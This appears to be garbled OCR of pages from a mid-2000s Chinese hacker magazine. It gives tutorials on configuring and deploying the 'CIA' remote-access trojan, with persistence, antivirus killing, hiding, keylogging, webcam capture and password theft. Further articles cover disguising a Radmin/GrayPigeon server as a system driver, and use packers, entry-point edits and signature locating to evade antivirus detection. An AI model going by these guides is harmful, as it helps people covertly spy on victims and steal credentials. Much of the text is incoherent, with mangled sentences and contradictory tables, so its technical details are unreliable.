连接的服务器、服务器的名称以及服务器程序的方式等，“`Main`”和“`Keylog`”等三个功能可以设置端口号为6336、6334、6335端口。当然，你也可以将这三个端口改为任何你喜欢的端口。现在，很多木马都用默认端口运行，这样就可以方便你的客户端窗口进行操作了。CIA在设置服务器后别忘了配置。“`Server`”选项用于配置服务器的名称，“`Password`”选择用于配置服务器的密码和服务器程序运行时的密码，CIA木马在连接服务器时可以采用两种方法，这样就可以让木马通过代理网络，“应用程序代理设置来绕过防火墙的限制。在“`Firewall Bypass`”方法后，这种写法对于我们很多软件来说都是有效的，由于“`DLL连接`”程序，`DLL Proxy Wrapper`这种写法对于我们来说是非常有效的。用户可以使用代理将服务器程序连接到某个客户端或者使用注册的资源管理器来执行，并且还需要在“`All Settings`”中选择要指定的DLL文件的名称，可以不需要的选项可以看到出来。“`Start`”按钮点击用于配置服务器程序启动的选项，CIA木马能根据运行系统的不同版本，我们提供了这6种启动的选项，这可能也是木马的，点击“`Run All (Windows), Registry Settings (x/Me Only)`”、“`System.ini (all windows)`”、“`Win.ini (all windows)`”、“`Explorer Run (2k/Xp Only)`”、“`Windows NT - Run (2k/Xp Only)`”，每个启动选项后面都包含了该要启动系统的参数，没有使用在正在运行的服务中使用激活项的方法，用户可以根据系统的类型选择对应的选项，如果不知道运行系统的类型，可以选择这几个选项，最好的方法是“`Windows`”的启动方式，当然你也可以选择这几个选项即可。

“`Install Server`”用于设置服务程序运行时注册中的名称，以及“`Registry Value`”值用于描述注册项的数值，如图3所示。


图3

“`Install Events`”用于设置服务程序运行时的提示框，用于在选择用户后，选择“`Display Message on install`”选项后，就可以弹出对应的提示框。设置里，用列表显示所包含的标识、标题、描述，设置完成后点击“`Get Test`”按钮进行测试，如图4所示。此外，此项提供了一个“`Go to install`”选项，可以设置对应的网页链接。


图4

此外，CIA还提供了一个“`Go to install`”选项，当设置后可以访问对应的网页链接。为了保护我们的程序在运行过程中，程序将检测到用户的第三方杀毒软件和病毒活动以获得保护。此外，“`Firewall Killing`”命令可以实现。点击“`Kill C/AV`”按钮后，点击“`Load List`”按钮在对话框中选择“`List.txt`”文件，就可以下载包含996个杀毒软件和病毒的名称。当程序检测到文件中的这些软件名称后，就会从这些选择的名称中保护我们的程序，这样软件就是主要的软件了。对于没有杀毒软件的用户，可以通过“`Add Name`”按钮来添加，如果你想添加病毒，就点击“`RISING`”按钮，如图5所示。通过“`Delete Name`”按钮就可以删除不需要的


图5

“`Send IP`”和“`Port`”中分别设置本地客户端的服务器IP地址和端口。如果不需要该项，点击“`GET`”按钮后，程序会自动查找对应的IP。如图6所示。


图6

除了上述连接方式外，还可以通过电子邮件发送。为了方便用户进行测试，我们已经做好了办法，很多软件在配置服务器端点击“`Binder`”按钮可以实现。点击“`Add File`”按钮在“`Bound`”窗口中查看需要发送的服务器分类。由于此木插件支持多服务，用户可以使用相应的程序进行注入。点击“`Open`”选择要操作的文件，点击“`File Destination`”选择目标目录，包括`Source`、`System`等常用路径，可以在“`Execution Type`”中选择以特定的方式注入，然后正常运行。如果有特殊需求，用RAR编译过的DLL，可以通过“`Register`”或“`Auto-Start`”生成对应的DLL选项以及它的功能。点击“`Misc/Loc`”按钮包含许多设置，通过这些功能可以对服务器程序进行调试，“`Enable Virus Injection`”选项选择在服务器中出现。如果我们希望这个配置生效，勾选“`Enable Server`”，服务器程序就会在启动时自动运行。“`DisableTaskManager`”可以阻止任务管理器运行。“`Disable Redirect`”可以阻止注册管理器，“`Disable Command Prompt`”可以阻止用户发送指令。通过“`Open Port When Only`”选项，只有连接到服务器后可以使用。在设置“`Send link in notifies`”选项，“`Unblock Some Firewalls`”拦截一些常见的病毒，例如如果CIA注入了病毒，对于防御可以通过防火墙“`Reverse Connection Only`”选项让服务器使用代理连接，选择“`Offline Keys`”，这样可以在内存的情况下记录插件数据库。最后点击“`File List`”按钮选择要操作的脚本添加到列表中，可以使用服务器。


图7

点击“`Stocks/Download File`”在这里我们可以对服务器程序进行注入，这种功能可以在服务器运行之后会自动连接并开启。通过“`Download/Execute File`”选项我们可以从指定的URL下载服务器上的脚本并运行，在“`File Url`”和“`Save As`”输入后将脚本保存到服务器的位置，可以使用服务器程序在虚拟机上打开，“`Port`”使用指定的端口，点击“`Stealth Options`”这里包括“`Hide Task Manager (NT)`”、“`Hide From Explorer (NT)`”、“`Hide From Registry (NT)`”如图所示。


图8

通过这些命令可以分别任务管理器中的资源、资源管理器中的文件以及系统配置程序进行隐藏。在2005年这种插件来隐藏功能但是没有这样的工具了。点击“`Stocks/Change Server`”在这里我们可以为服务器设置个性化的图标，通过“`Change Server`”选项可以让服务器拥有并发连接。如果希望使用自定义的图标，还可以使用“`Custom Icon`”选项选择特定的图标，然后点击“`Build Server`”就可以完成服务器的制作了。在“`Filenames`”输入生成的服务器扩展名，在“`Extension`”中选择对应的EXE文件后缀，这样可以保护服务器扩展名，最后的文件名后面跟着多个扩展名。如果为了替换“`Compress With Met`”选项，最后点击“`Generate Server`”按钮就可以对服务器进行加密，生成我们配置的服务器程序，如图10所示。


图10

### 远程控制服务器

虽然CIA插件的功能是强大的，但是生成的服务器端程序经过压缩，在网络传输时只占用17KB，扩大为52KB。服务端生成以后，用户可以通过网络传输等方式将结果发布出去。


当服务器端程序安装到客户端计算机后，我们应该对该客户端进行配置。如果用户使用的是TCP或UDP服务器程序，那么用户可以通过以下两种连接方式进行连接：点击“`Client Options`”窗口的“`Logger`”菜单选择“`List`”，在弹出的“`List`”项里输入服务器的地址，然后点击“`Update List`”刷新网页即可看到找到的远程服务器列表，如图11所示。


图11

对远程计算机进行从文件中打开、下载、删除、运行、打印等操作，如图12所示。


图12

对远程计算机进行，“`Registry Manager`”命令点击“`Get Keys`”可以对注册表进行读取，在“`Path`”路径中选择要管理的项，再次执行要的操作即可读取、编辑、添加、删除或在新的系统中执行。“`Process Manager`”命令可以对远程计算机执行任何操作，点击“`Kill Selected`”结束不需要的进程。“`Server Manager`”可以对服务器的服务项执行启动、停止、重启等操作，点击“`All Active`”和“`Inactive`”筛选服务项。“`Windows Manager`”可以对远程计算机中的所有窗口管理，你可以执行最大化、最小化、隐藏、关闭等操作。


Message Manager点击“Yes/No”可以向远程计算机发送消息，点击“Accept/Cancel”拒绝消息。File Manager点击“Send”或“Receive”可以向远程计算机接收文件。


消息格式包括文本、文件，如图13所示。


当用户在远程服务器列表上点击“Connect”连接到计算机。如果用户使用的是代理方式，那么先点击“Client Options”窗口下的“Start Listening”，在弹出的“Start Listening”窗口输入服务器IP地址，此时建立了连接。这种插件支持远程桌面，这种技术可以帮助用户连接到多个计算机，先看“File Manager”点击“Select Files”选择列表，“Process Manager”、“Message Manager”和“Scripting”等远程控制命令就可以看到这些命令的作用。点击“File Manager”命令在远程计算机窗口中操作，Webcam命令。

# HACKER ATTACKS&DEFENSE

“Start Capture”命令插入摄像头，这种视频设备在木马中是可以运行的。“Keylogging”命令是常用的键盘记录器，可以记录用户的登录信息。通过“Start”命令启动后，可以通过“Save Log”和“Clear Log”命令保存记录或清除。“Get Offline”和“Clear Offline”命令在计算机上运行，“Audio”命令可以记录任何音频，通过“Streaming Audio”命令针对不同的音频。

| Time (ms) | |
| --- | --- |
| Warped | |
| Sent | |

Speaker Speaker命令可以使用计算机的输出各种种类，可以让用户输出对方设置的时间声音效果进行设置，使得对方产生尴尬。“Resolution”命令可以对显示器的分辨率进行设置。

|14|

| Start Capture | File Name | File Path |
| --- | --- | --- |
| Search: | Search In | Num Lock |
| Status: | Files found: | Idle |

“Find Files”命令在指定路径下搜索特定的应用程序文件，并显示通过“Capture”命令可以获取计算机的信息，包括浏览器历史、桌面等。“Info”命令可以获取最近的访问、文件修改等。“Password”命令可以收集用户的密码，“Keys”命令可以获取某些软件的设置，在木马中是非常常见的。“Clipboard”命令可以查看剪板中的内容，可以通过剪板上的内容复制操作。“Administration”命令按下快捷键后可以进行设置，通过“Server”命令对服务端连接控制缓存、更新焦点位置。“Power”命令可以运行行为，焦点转移。“Trans”命令可以在文件树中更改目录，“Socket”命令在计算机中运行，“Misc Control”命令可以对系统中的各种提示、恢复、保存以及注册操作进行控制。“Download”命令可以下载客户端内容，如图15所示。


- URL: `http://www.google.com`
- Save As: `C:\Users\Administrator\Desktop\test.exe`
- Status: Idle

“Options”命令是所有人下的命令都是运行的，“Client Chat”命令可以和其他客户端之间交互。“Remote Email”命令可以从用户发送的邮件，“Inbox”命令可以查看对方的回复。

| Open Tray | Close Tray |
| --- | --- |
| Num Lock | Caps Lock |
| Srd Lock | Scroll Lock |
| Hide Task | Show Task |
| Hide Desktop | Show Desktop |
| Monitor On | Monitor Off |
| Start Shake | Test Shake |

“Communication”命令允许用户之间进行流畅的通讯。如果你在没有视觉效果无法通过，可以使用“Server Chat”命令进行交互。在不知道对方QQ号的情况下可以沟通，“Your Nick”和“There Nick”两个字段内的昵称或名称，选择你喜欢的昵称后，点击“Open Chat”就可以开始了。客户端用户对远程进行会话，“Voice”命令是对方的立场方。它不是用户的配置，例如在右侧的设置中，我们可以使用“Player”命令运行。“Flush”命令可以控制对方的打字行为，在键盘输入窗口的打印文字。“Text Print Remote”可以在对方打印时显示出来，如果你不想看到Emoji表情的话，那么这个功能关闭。“System”命令可以对进行。

“Applications”菜单下的命令可以对系统中的添加插件进行后处理，如MSN、IE服务器等。“Man Messenger”命令不用说，是针对对方的打印软件的，“Grab Contacts Get Fake Man”。


www.hacker.com | 黑色破解学院制作版

# HACKER TOOLS ATTACK & DEFENCE

和“Internet Explorer”只是浏览器，你可以获得浏览器的历史记录，首选项设置以及打开用户的网页，你可以查看并修改IE浏览器的设置，你也可以通过“设置”按钮打开你设置好的网页，“Ms-DOS”插件是浏览器中的插件直接模拟了远程的命令行提示符，对主机并没有任何影响。

到此为止，CIA的很多命令已经足够了，你不需要再做，因为你还没有个性化的客户端设置。

点击“Client Manager”插件下的命令，你可以用这个插件来连接服务器，首先选择好参数之后，你可以在两个屏幕上看到客户端的界面，“Apply Skins”可以用来对服务器进行皮肤操作。此外你还可以更改“主题”中的数值和颜色主题。

通过“Address Bar”可以，用来对用户进行管理，“Monitor”可以用来查看你正在连接的账户、密码和服务器连接状态，我们可以从这里读取数据，“Received”和“Sent Bytes”可以显示和已经发送的数据，“Plugin Engine”可以，用户可以用CIA的插件进行插件操作，用户在你的电脑的某个时候就会离开了

适合读者：黑客者

## 前言

## 改造海盗

看了《黑客的》2005年第11期的如果你你是害怕的——体验被黑子的企业，对于黑客和Radmin的分析，我们写了这篇分析。对于黑客来说，我们打算用自己的操作来编写一套简单的操作方法来攻击大黑子的系统，特别是在被黑子的企业中增加一些恶意插件（增加一个插件是的）——我们改造了黑子的版本在屏幕上增加了一个标签，流量现在完全可以通过Radmin，我们使用这些工具对黑子的企业的服务器进行增强不需要任何额外的费用，这无疑是攻击大黑子的最好方法！这就是我们想分享的了。

用Radmin的插件在他们中，由于我们提供了增强服务器的额外方法，推荐你使用OS安装方式，这对于大家来说非常方便，在不需要权限的情况下登录的。我们可以使用远程（3389）或PnyViewer来登录可以对黑子的界面进行安装，我们就可以连接其他的其它插件插件出来，把Radmin上传后，可以使用图所示的安装方式

现在我们对于改造黑子的建议是，在改造黑子的企业系统中，在磁盘上进行圆形形状安装，我们也提供OS


需要用户某些插件，新版本中已经FBI登录插件，Flowwy文本插件，MSN插件插件，插件显示连接信息，除了这些之外，还可以通过VB来使用插件支持插件

到为止，这个功能强大的插件对于来说不是多少了，通过上面的介绍，你可能已经知道了CIA的强大和非它的能力，你可能有对这种插件存在的好奇吧，不管怎么样，如果你喜欢就可以试试吧


文/ 望海湖


在安装圆形形状后，通过几次尝试的结果，看来是正确的，下面我们将大家介绍对于黑子的企业的改进工作，首先是改造黑子的版本，本的方法是你可以用Radmin远程安装企业插件050825,

作者是黑客迷，以及我们很多黑客在寻找攻击黑子的方法，你可以访问网址获取更多相似和比较类的方法去这里（`http://www.hacker.com.cn/`），否则会在棱峰碰撞后，在找不到我们。”

www.hacker.com 黑客论坛 2007年精装版 上册 1

# HACKER ATTACKS & DEFENSE

> 目标 butterfly.hacker.com


## VisualLocker.

`TelnetCtrl`.

`OtherCtrl`也可以是原本服务器设置中的：

- 一个选项，取值 1，代表允许限制
- `LoginLimit=52`，代表非限制
- `ScreenShow=1`，代表显示登录
- `ScreenLock=0`，代表不锁定

在连接服务时出现，那么你可以忽略掉这个警告，如果你不希望它出现，改进改进为ROGRAMS-C


`C:\Program Files\Windows\System32`。点击“开始”菜单，“服务”在安装后单个服务的设置相关项。这部分章节可以跳过，但你要在文件中加入一行`-HideTitlebar=1`，表示在连接时时不出现标题栏。

修改配置文件后，直接重启即可看到`server.exe`的改进效果。运行`server.exe`，`server.ini`共享后，你可以更改名称为`hosts.ini`。即使像系统默认那样，修改`server.exe`的文件同样生效。修改安装后，将服务命名为`GrayPigeon`在Windows系统下，服务名为`services.exe`、`svchost.exe`，更改为`GrayPigeon_Driver`后`NVIDIA_400_Driver.exe`，启动驱动程序即可`huzget.hacker.com`中，通过任务管理器看到一定相同，修改后具有比较改进效果已经改进了。

内心的恼你听过这里到底发生了什么事桌面界面的显示是什么？其实我们不需要在OS安装后立即配置“企业版”以及在启动相同的，在OS下登录`g_,server_exe`，中文的问是如此许多显示如图所示。此文结束、改进的服务文件`svchost.exe`和一个自定义文档，其中登录码为`uuid`，连接端口772，请你使用

`server.exe`的界面配置和程序的设置没有那么多：

Options:

- show dialog with settings (install,remote,port)
- specify a password (`server.exe -n`)
- (`server.exe -n`)(install,uninstall service and driver
- register,store the settings in registry if do not specify a password or use this option `server.exe` uses the password in custom always defaults from registry.


企业设置和程序的设置没有那么多，不用多言，在启动后`H_Client.exe`从界面企业版以后保存所有的功能，点击注册登录和配置，可能由于自己创建了密码，以后修改连接服务器时，修改连接配置比较改进单一，如图所示。


文件(F) 编辑(E) 帮助(H)连接设置：

- 服务器地址：
- 用户名：
- 密码：
- 显示名称：生成服务器配置


内容：文本将在这里显示配置。点击“保存”或“单一”路径：`/server.exe`服务器配置显示名称：`Server_Setupexe`在执行成功后，如图4所示。


这里驱动已安装，这里就是虚拟机或操作了。其中可以问一下，在安装服务器后点击，设置成功了从服务器的列表下一项，修改连接时间后就会发现多个服务器：`g_,server_exe`、`g_,GrayPigeon`、`mys`服务运行后在另一个列表中找到，如果你想要更改`g_in_,server_exe`的配置文件中写了“这个文件”，要把这两个文件复制到对应的文件中修改，首先选择`g_,server.iniConfig`你可以配置远程服务器的端口，就是你设置连接端口：`FileCtrl`、`FileScreen`、`ScreenLock`，


www.hacker.com (2007) 羊版权所有 | 目标 butterfly

# HACKER ATTACKS & DEFENSE

| 标题 | butterfly | butterfly | hacker@hacker.com |
| :--- | :--- | :--- | :--- |

| 标题 | butterfly | butterfly | hacker@hacker.com |
| :--- | :--- | :--- | :--- |

适合者：编程爱好者，网络安全爱好者

前置知识：无

## 漏洞免杀

文 / SDRang

我们在入门的时候，常常会遇到工具失效，因为杀毒软件变多了，改了一种或者几种杀毒软件的特征并不能保证免杀，毕竟杀毒软件也不是错的，什么病毒绕过、逆向工程技术和各种技术等，不过这些领域没有少说，是有漏洞的；如果不是杀毒软件特征这里要特别留意。最近的免杀技巧就很厉害，看着蓝色的病毒里面不停的，它是在我的电脑面前出现了，我试着把病毒删掉，重构编译后它又回来了；尝试第二天用`avscanner`就报了毒，于是我尝试了免杀，病毒又完成了任务，我终于免杀了。

任务已经完成了，也足够了，我打算自己完成病毒的任务。虽然比想象中困难，但是还是做出来了。我用`Aspack2.12`、`tLOCKV0.96`、北斗星编译器、`PE-ArmorV0.74`、`Morph2.7`（加壳插件）处理后，再用`PSINK`（专业的免壳工具就去除了这些AV的特征）。

`LordPE`是一个极大的工具，原来用来写`PEEditor`的`Yoda`（C引擎的前），功能完全超级`PEEditor`，是研究内核和免杀的必备工具，可以用这个软件看到很多细节，稍微调试，这样做的方法是把入口点放在后面，这样杀毒软件就不会了，在本地，修改`00006333`改为`0006334`后保存它，如图所示。

由于帕斯基的要求，有必要就是要这样的文件，虽然杀毒程序还能运行的（虽然它没有免杀的特征，没有发现的方法），为了万一无一，可以自己写一个也可以。比如2005.12的插件、2005.11的插件，杀毒软件就不会了（入口点的）。用PE特征修改，这样就方便了，多一种，用C++特征定位后修改，用C++特征修改代码，用C++特征修改，++特征后修改，如果没有调试工具，你可能能找到调试，这种方法就是“Windows”调试，用`LordPE`里有很多值得寻找，下面是常用的免杀技巧，如图4所示。

| 软件 | 结果 |
| :--- | :--- |
| `Aspack2.12` | 成功 |
| `tLOCKV0.96` | 成功 |
| `PE-ArmorV0.74` | 成功 |
| `Morph2.7` | 成功 |
| `PSBINK` | 成功 |

我们用`LordPE`来看`server.exe`的入口点。可以看到（这是一个免杀的文件）：看看是不是还不免杀？是因为VC++……入口点后跳转，还能运行了，但是有些地方是有可能的

www.hacker.com 蝴蝶版权 ©2007 | 安全论坛所有 |

# HACKER TOOLS ATTACK & DEFENSE


最近发现，大家还可以关注几个热点的新病毒。病毒它仿装杀毒软件面。这种病毒在感染后一点点找出来，好像一个隧道。

Kaspersky(卡比基): 技术专家，占全球市场

Norton Networks: 杀毒软件强大，但是它在安装后会修改杀毒软件，并修改注册表和一些系统库文件等，这种行为会被杀毒软件认为是工具行为，但这属于正常的现在的程序之所以没有被挂为系统病毒和纠正一些错误，这确实有一个范围，在入口处有这样的事情，如果出现，就不隐藏了结果。我可以在运行的程序中发现这个异常的行为是`00063`的异常情况(运行(命令))但是如果到了，再继续挂载。出去(如果不能像病毒一样，被黑客的加入杀毒软件被放了)这种操作可能会导致内存损坏，这些东西也没有了。现在看到这些病毒，最近发现这些病毒是技术领先的。但是我们应该知道它并不是“技术领先”，很多病毒就能在登录的时候，被黑客轻易就搞出来，而杀毒公司以后会变得糟糕，特别是我们不需要拦截所有的Rootkit了。只需要写一个简单的程序就可以了，吗？只要在Windows里“包”它，这些病毒都不会出来，只要Windows未启动，它们是不保护的，所以会被Windows启动杀掉，这是新技术不是？适合Rootkit，木马爱好者。

前置处理无

以下是我个人对一些病毒的建议，家庭用户


ND32: 感染后要在命令下下它，一意味着它在运行的时候就能拦截，Rootkit的防护是不可能的，

Norton: 不要只看着它，对病毒没有效果(当然不是文件)，现在有了改进了，不知道，对于它与Kaspersky对比用，效果如何。

KV: 系统内核的病毒是不错的。中国网络安全到底怎么样？至少要懂这些技术吧

# 宋家钩特征木马的简单修改

文/吴天磊现在木马推进的速度已经太快了，可能不能一直被病毒捕获，所以我们希望大家都拥有自己的黑木马。然而通过修改来实现它的本身是不可能的，而是更好的方法是通过修改程序来绕过，生成自己的服务程序，今天我们将修改这样一种特征的木马。

选材

我用自己编写的扩展程序V2005对该程序进行了修改，为了方便进行服务程序的修改，将程序修改为“生成自己的服务程序”，今天我们将首先打开程序使用Restor 2004，点击工具栏的“打开文件”链接，从弹出的窗口中重新配置程序，选择`Maindll.DLL`作为杀毒源，选择`RCData`中的导出命令中的`GetOut`修改为`Get`，在导出的出口中将原来的改为`Maindll.DLL`所示：

选择打开并保存的`Maindll.DLL`

按照描述的方法可以技术到资源中再次找到


| 导出 | 结果 |
| :--- | :--- |
| `GetOut` | `Get` |
| `Maindll.DLL` | `Maindll.DLL` |

www.hacker.com 蝴蝶版权 ©2007

## 木马攻击后门

加密后，使用 Restator 修改了`MainDll.dll`，在源码的`RCDate`下再次执行被修改后的`GETKEY`和`HOLL`，通过绕过字符串中的查找，让我们将修改后的`GETKEY_HOLL`分别替换，按照之前的方法进行修改后，我们的木马修改成功了。

如何作为测试呢？因为在上传到服务器后，服务端可能会被查杀，由于我们没有安装我们的木马，我们可以从服务器端程序进行一次检查。使用之前的方法可以找到我们的木马入口，由于双击运行程序找到修改后的程序的入口，用 PEEditor 点击“调试”找到修改后的程序的服务器连接信息。下面介绍一下：

我这里的入口是`0x000C0CA0`，只需要把这个值在数值上加 1 或者启用，然后点击“运行”并按照之前的设置进行调试，再用该木马进行检查，实现。

### 适合者

木马爱好者

## 前置知识

文/风影无痕

对于学生来说，想要看到真正病毒的木马简直是一个梦想吧。在一个网络上收到的病毒都已经被安防软件拦截了，木马还能获得病毒呢？有什么办法可以尝试自己动手？对于学生来说就只能自己动手去创建一个木马了。

用我编写的技巧：木马防火 2.0，绕过的 QQ 工具，拦截 ResScope，需要带毒插件。拦截 ResScope 后拦截 QQ，这里要先拦截文件，然后扩展名为`EXE`，发现一个支持的文件后缀是`Q1`、`Q2`、`Q3`和`Q4`，如图 1 所示。

- 2、拦截触发防火墙 2：前面选择后缀，点击`Q1`后，会弹出一个空白的窗口，点击取消后就打开一个空的目录。现在它已经被删除了，删除特定的特征文件，没有被拦截的就没有特征的文件。再点击如此，在返回的结果里查找，没有特征的文件可能在处理的过程中找到，一般其中有一个，三个是无效的。如何判断呢？先运行木马，然后用 QQ 大白带的卸载。


图1


图2


图3

## 修改 `MainDll.dll` 属性

| 文件名 | 属性 | 备注 |
| --- | --- | --- |
| 入口 | `0x000C0CA0` | |
| 资源 | `0x00000000` | |
| 时间 | `0x00000000` | |
| 版本 | `0x004A2519` | |
| 源代码 | `0x00000000` | |
| 调试大小 | `0x00000000` | |
| 符号 | `0x00000000` | |
| 权限 | `0x00000000` | |
| 属性 | `0x00000000` | |
| 其它 | `0x00000000` | |

图8


修改过的程序可能已经不会被查杀了。对于一个被查杀的木马程序就这样了，并不是简单的哦。你有朋友的话，尝试制造试试，来制造一个属于自己的木马吧！


程序一系列是否被查杀，如果感染了该病毒说明是有效的。如图 2 所示。

选择方法：PEEditor

- 3、三个查杀方法：修改`Q1`和 ResScope 返回的结果，对于`Q2`、`Q3`、`Q4`进行相似的操作，步骤完全相同。在这一之后，第四步：拦截 ResScope 对应的`TMAINFO`，插件：拦截 QQ 网络连接。`build1001`激活：“小鱼某某木马”，如图 3 所示。

保存后，看着它，再用一遍看看它已经没有病毒了。设置好后发现木马可以拦截 QQ，分发 MM。此时的 MM 还是我的 MM，它的眼睛眼里充满了感激之情。本文的描述只是为了给大家一个小案例。

`http://www.hacker.com/`

（黑客 2005）毕业季

# HACKER TOOLS ATTACK & DEFENCE

(邮箱) butterfly@hacker.com

## 计算机病毒初识

我们经常提到计算机病毒这个词，很多人都会遇到它，尤其是在使用计算机时，第一步就是了解病毒的位置。这里，我建议你选定了一个地方：

`/zen/yi/vbs.shtml`


计算机病毒的定义有很多，但最常用的一种是能够自我复制、传播并破坏系统的程序。病毒是为了执行特定的功能。

### 病毒分类

- 感染型病毒
- 宏型病毒
- 变形型病毒
- 碎片型病毒
- 启动型病毒


从这里来看，我们可以了解它的功能。其中病毒的运行机制比较复杂，我们不能忽视。

- 邮件附件病毒
- U盘病毒
- 共享文件夹病毒
- 蠕虫病毒
- 网页病毒


VBScript 是一种脚本语言，用于自动执行任务。病毒利用它编写的：

```vbbs
Set obj = CreateObject("WScript.Shell")
obj.MsgBox "Hello World!"
```


通过编写 VBScript，我们可以创建各种应用程序。病毒的运行机制：

- 触发
- 载入
- 执行代码
- 自我传播
- 隐藏


### 病毒防护

- 扫描
- 行为分析
- 启发技术
- 特征防御
- 权限管理

### 病毒变机制

- 加密技术
- 混淆代码
- 垃圾代码注入
- 多态变异
- 反调试


## 病毒防御策略

### VIP 会员成果

适合初学者爱好者。前置知识：掌握基础知识。

## 黑瞬蝎子定位之技巧

前两天蝎子又更新了，蝎子 VIP 更新到 2006 版，下载了一个功能，基本上没什么变化了，只是界面上有了改进，如图 1 所示。

| 属性 | 1 | 2 | 3 | 4 | 5 | 6 | 7 | 8 | 9 | 10 | 11 | 12 | 13 | 14 | 15 | 16 | 17 | 18 | 19 | 20 | 21 | 22 | 23 | 24 | 25 | 26 | 27 | 28 | 29 | 30 |
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |

图1

蝎子已经可以修改成类似哈巴斯的定位和过流量了。内存内的定位方法其实是一样的，区别在于特征的多少问题，只要了特征，几条字符串也可以用蝎子定位时比较容易。

蝎子去了一些让自己使用的特征，很多大家需要这些功能可以用帮助。所以蝎子不如 VIP 快。定位器每个蝎子找到的特征都在头部，大部分不能修改的，而且由于存在重复的问题，这个问题我们认为某些版本的定位不准确。

假设中的 A、B、C、F 区域都是一种特征，A、B、C、D 区域是特征。当我们在区域查找时发现，A、B、C 区域是相同的，我们在查看之后，由于 A、B、C 区域重复，是正确的。

# HACKER TOOLS ATTACK

4. 通过 500 个样本属性，我们就可以通过`000AAE52_0000F2F`区段来定位`backdoor/huigui.cci`的特征码。我们使用位置，三个特征码通常是一个字符串，我们用 C 语言处理这 500 个样本，`000AAE52_0000F2F`处理，如图所示。

| 序号 | 偏移 | 特征码 | 结果 |
| --- | --- | --- | --- |
| 0001 | `00000000` | `00000000` | `01444` |
| 0002 | `00005f2f` | `00007f4e` | `01444` |
| 0003 | `00001a44` | `00001b99` | |

图3

| 序号 | 偏移 | 特征码 | 结果 |
| --- | --- | --- | --- |
| 0001 | `00000000` | `00000000` | |
| 0002 | `00005f2f` | `00007f4e` | |
| 0003 | `00001a44` | `00001b99` | |

图4

我们可以通过定位一个`OUT_000AAE154_0000F2F`得到它的特征码位置。

5. 我们对于`000AAE1594_00000000`区段进行处理，然后对`000AAE52_0000F2F`区段的特征进行定位，使用 4 个字母的码来进行后续定位，结果得到一个特征码`backdoor/huigui.cci`结果，定位的结果：

| 序号 | 偏移 | 特征码 | 结果 |
| --- | --- | --- | --- |
| 0001 | `00001578` | `00000000` | |

# HACKER TOOLS ATTACK & DEFENCE

> 目标教程 | butterfly@hacker.com

适合者： 入门爱好者

前置要求： 如何准备

MT是一款优秀的国产入侵工具，功能齐全全面，有的黑客甚至将它和MEME并列。由于MT自身的“基因组”，其毒特征常会被杀毒软件检测，为了让杀毒软件不再骚扰我们，我们就对MT进行“免壳处理”。

## 脱壳

首先使用PEID查看壳是否加密，点击PEID主界面中的“文件”-按钮，选择MT，查看如图所示。


从中看出我们采用UPXShell进行逆壳，效果比较简单，如图2所示。


## 免壳

想要不被杀毒软件检测，最常见的方法就是修改导入表、添加插件，可以使用这种方法。对我来说还是有点困难，我找到了一个简单的方法，轻松就搞定了MT的壳。

使用编辑器修改导入表，点击“选择删除”的`MT_PEeditor`的读写修改程序的“文件信息”，我们只需要在“入口”处对信息进行一次修改就可以了，如图3所示。


我们在“入口”处`000011f`，我们把这个地址改为`000011b`，然后点击“按钮”对设置进行确认，查看修改后的程序即可运行，测试的病毒是否会被卡斯基拦截，KV2006。

## 加壳

- 确认后的病毒不被杀毒软件拦截后使用，我们就不担心为了修改的病毒进行测试。所测试的，其实就是修改后的程序，或者是是否合法生效，或者某些功能没有经过测试。修改后的MT完全可以使用。

现在可以确认无误，我们将MT作为新程序加壳，是为了程序的保护，二是程序的加密，使用`ASPack_Protect`。

使用UPXShell后，使用ASPack。

## 打包

点击“选择删除”修改后的程序，如图4


## 至此

MT的加壳操作到这里，大家可以通过上面的教程对其他工具来实现免加壳，如果有任何问题的话，欢迎来到黑客论坛进行讨论。


# HACKER ATTACK & DEFENSE

适合者：黑客、安全爱好者

初级管理员：需要安全软件使用、基础知识。

在开始介绍之前，我们先来看看杀毒病毒的方法。

特征检测方法：从一个病毒的每个位置提取16个字节的特征，为了减少误报率，只有当符合这些特征的文件才会被认为是病毒/马。由于对于这些杀毒病毒的特征就是检测中的核心依据，从查杀杀毒病毒。

再来说看卡巴斯基杀毒特征，我们使用的是卡巴斯基 Pro 5.0，它使用了云查毒特征库，您可以看到它的优点和缺点。我们通过使用一个本地特征库定位，静态型优点就是不需要在后台运行中不断扫描病毒，不需要任何外部插件，只有下述的文件在触发病毒检测时才会触发，如果这个文件不是病毒就是安全的。由于我们运行算法是不可能的，但是，我们希望能够准确地处理结果，通过卡巴斯基杀毒检测查看对于特征方法的有效性。由于特征的任意性，任何杀病毒是不准确的，最后就是杀毒检测。

卡巴斯基没有特征检测由于特征有有效性，然后再进行杀毒检测。根据检测方法，由于任何一个特征的匹配就会导致误报，如果有人报告这种误报会导致引起服务器的崩溃。由于是真实的，我们对这个是不感兴趣。通过卡巴斯基杀毒检测，它的优点就是不需要编写许多杀毒特征，它的缺点就是上面所说的这些杀毒病毒的特征检测，这种方法可能会导致漏报，如果病毒的特征没有被匹配，那么卡巴斯基就不会杀毒这个病毒。最后就是卡巴斯基杀毒检测。

# 杀毒病毒

虽然已经知道了，那么我们应该怎么处理杀毒查杀，答案很简单：利用病毒/马的特征杀毒检测。


我们，杀毒特征是可以修改自己的，例如检测后，杀毒特征将不相同。由于不同的相同的特征后，杀毒特征进行了更新，由于新特征也可以被杀毒特征所忽略了，我们可以使用相同的杀毒特征。lovegate.com

卡巴斯基已经使用了这种方法，当检测到不同的病毒特征时，由于所发现的木特征不相同，由于一个相同的特征后，出现了`PccClient.exe` | 由于特征后生成了`Pccshare`中的，由于出现了不同的`PccClient.exe`-`PccClient.exe`等，这里我们利用相同的特征来杀病毒的思路，我们能够修改自己的定位和特征处理。

# 常见病毒

首先查看病毒：Hex Editor。

| 病毒名称 | 路径 | 大小 |
| :--- | :--- | :--- |
| `E5TWEV_00000000000000` | `PccClient.exe` | 8字节 |
| `E5TWEV_000000000000001` | `YaccClient.exe` | 8字节 |
| `E5TWEV_000000000000002` | `PccClient.exe` | 8字节 |
| `E5TWEV_000000000000003` | `PccClient.exe` | 8字节 |


# HACKERS ATTACK & DEFENSE

学习（邮箱）：butterfly@hotmail.com

不是哪里很像？好了，再一次，任意选择一个Client的特征，这里选择`1A80`的字母，然后进行修改，记住之后必须使用大写的字母码。

| 序号 | 特征码 | 大小 |
| :--- | :--- | :--- |
| 0001 | `00000000` | 8 |
| 0002 | `00000000` | 8 |

